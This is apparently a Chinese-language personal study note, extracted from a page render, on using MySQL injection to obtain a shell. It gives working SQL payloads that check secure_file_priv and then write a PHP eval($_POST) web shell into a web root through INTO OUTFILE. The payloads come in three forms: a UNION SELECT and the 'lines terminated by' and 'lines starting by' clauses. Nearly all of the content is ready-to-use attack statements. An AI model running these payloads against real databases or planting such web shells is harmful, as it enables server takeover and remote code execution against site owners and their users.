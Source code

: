 MYSQL注入 GETSHELL

 

看到mysql写shell的语句有挺多的，学一下记录下来

**0x01 利用条件**

[TABLE]

**0x02 写shell语句**

| 1   | show global variables like '%secure_file_priv%';        #查看可以写入的位置 |
|-----|-----------------------------------------------------------------------------|

 

5.7.26为null，5.5.29为空

![image-20240410161844061](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410161844061.png)

这里用的是5.5.29版本默认为空，可以写入任何地方，当然目录需要有写的权限

 

![image-20240410161859475](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410161859475.png)

 

**into outfile / into dumpfile**

 

**UNION SELECT**

最简单的联合查询写入

| 1   | select \* from users where id=-1 union select 1,2,'\<?php eval(\$\_POST\[\\pass\\\]); ?\>' **into outfile** 'D:\\phpstudy_pro\\WWW\\shell.php'; |
|-----|-------------------------------------------------------------------------------------------------------------------------------------------------|

 

![image-20240410161911064](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410161911064.png)

写入的文件是这样的

**lines terminated by**

| 1   | select \* from users where id=1 into outfile 'D:\\phpstudy_pro\\WWW\\shell.php' lines terminated by '\<?php eval(\$\_POST\[\\pass\\\]); ?\>'; |
|-----|-----------------------------------------------------------------------------------------------------------------------------------------------|

注意这里一定要用一个可以查询到的值，不然写文件会为空

![image-20240410162105241](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162105241.png)

**lines starting by**

 

| 1   | select \* from users where id=1 into outfile 'D:\\phpstudy_pro\\WWW\\shell.php' lines starting by '\<?php eval(\$\_POST\[\\pass\\\]); ?\>'; |
|-----|---------------------------------------------------------------------------------------------------------------------------------------------|

 ![image-20240410162117508](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162117508.png)



